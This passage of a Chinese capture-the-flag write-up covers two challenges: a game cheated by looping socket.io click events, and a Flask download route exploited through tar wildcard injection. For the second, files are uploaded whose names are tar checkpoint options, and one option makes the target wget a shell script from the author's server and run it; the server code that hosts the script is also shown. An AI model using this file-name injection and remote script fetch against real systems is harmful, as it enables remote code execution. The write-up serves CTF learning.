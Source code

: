 ```js
const intervalId = setInterval(() => {
    socket.emit('click', JSON.stringify({"value": 9, "power": 1e40}));
}, 100);
```

抓到你啦

![29](https://the0n3.top/medias/buildCTF/29.png)


## 打包给你

审计源码，在下载路由下`os.system`存在漏洞

通过谷歌搜索可以了解到`tar命令通配符`漏洞，tar命令在解析通配符`*`时，看到有参数则将执行

```python
@app.route('/api/download', methods=['GET'])
def download():
    @after_this_request
    def remove_file(response):
        os.system(f"rm -rf uploads/{g.uuid}/out.tar")
        return response

    # make a tar of all files
    os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")

    # send tar to user
    return send_file(f"uploads/{g.uuid}/out.tar", as_attachment=True, download_name='download.tar', mimetype='application/octet-stream')
```

可以通过`"--checkpoint-action=exec=sh shell.sh"`,`"--checkpoint=1"`参数来执行命令

在本地调试过程中发现下面几个现象：

- 上传的文件内容都是空的
- 文件名中不能含有斜杆及反引号，否则上传失败
- 发包过程中无需使用`${IFS}`绕过`sh shell.sh`的空格
- tar cf out.tar *的操作时，除了上面需要的两个参数外，必须存在一个其他文件，否则无法执行命令

这是测试过程中，存在`2.txt`时才执行`touch 1.txt`的命令

![33](https://the0n3.top/medias/buildCTF/33.png)

在以上条件下，最终我选择在远程服务器通过flask提供一个sh文件的下载，通过wget下载到靶机，通过修改服务器的sh文件内容实现执行不同命令

通过bp发送下面的文件名的文件

- 2.txt
- --checkpoint-action=exec=wget -O shell.sh ip:5000;sh shell.sh
- --checkpoint=1

在远程服务器上创建`app.py`,`shell.sh`文件

```python
from flask import Flask, send_file, abort

app = Flask(__name__)

@app.route('/')
def download_file():
    file_path = './shell.sh'
    
    try:
        return send_file(file_path, as_attachment=True, download_name='script.sh', mimetype='application/x-sh')
    except FileNotFoundError:
        abort(404)
```